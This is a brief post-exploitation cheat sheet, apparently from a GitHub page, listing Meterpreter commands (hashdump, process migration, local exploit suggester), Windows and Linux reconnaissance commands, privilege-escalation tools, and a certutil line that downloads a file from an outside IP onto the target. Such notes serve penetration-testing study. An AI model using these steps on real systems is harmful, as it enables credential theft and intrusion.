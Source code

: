 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Use different process
```
ps
migrate
```
## Cmd
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
### windows exploit suggester
### https://www.fuzzysecurity.com/tutorials/16.html
